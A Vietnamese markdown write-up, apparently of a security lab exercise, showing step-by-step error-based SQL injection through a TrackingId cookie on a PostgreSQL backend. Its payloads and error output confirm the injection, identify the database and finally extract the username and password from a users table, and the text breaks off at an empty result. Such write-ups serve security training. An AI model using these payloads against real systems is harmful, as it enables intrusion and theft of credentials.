


# Visible error-based SQL injection

## 1. Xác nhận tồn tại SQLi

Payload thử:

```text
TrackingId=FI9T1Ew966wPfw2x'        // lỗi
TrackingId=FI9T1Ew966wPfw2x'--      // hiển thị được
```

Kết luận: tồn tại SQL injection.

## 2. Xác định DBMS

Payload thử:

```text
'||(SELECT+'A')||'                  // hiển thị được
'||(SELECT+version())||'            // hiển thị được
'||(SELECT+@@version)||'            // lỗi: ERROR: column "version" does not exist
```

Kết luận: PostgreSQL DBMS.

## 3. Thử CASE WHEN và quan sát lỗi cú pháp

Payload:

```text
'||(SELECT+CASE+WHEN+(1=1)+THEN+1+ELSE+1+END)||'
```

Response lỗi:

```text
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'FI9T1Ew966wPfw2x'||(SELECT CASE WHEN (1=1) THEN 1 ELSE 1 END'. Expected  char
```

## 4. Khai thác error-based bằng CAST

Payload thử:

```text
'+AND+1=CAST((SELECT+1)+AS+int)--   // không lỗi
'+AND+2=CAST((SELECT+1)+AS+int)--   // không lỗi
```

Payload gây lỗi để leak dữ liệu:

```text
'+AND+1=CAST((SELECT+'a')+AS+int)--
```

Lỗi nhận được:

```text
ERROR: invalid input syntax for type integer: "a"
```

## 5. Đọc dữ liệu nhạy cảm (administrator)

Payload thử password:

```text
'+AND+1=CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)--
```

Kết quả: thông báo lỗi bị truncate.



Thử lại bằng cách xóa giá trị TrackingId cũ:

```text
TrackingId='+AND+1=CAST((SELECT+username+FROM+users+LIMIT+1)+AS+int)--
TrackingId='+AND+1=CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)--
```

Kết quả:


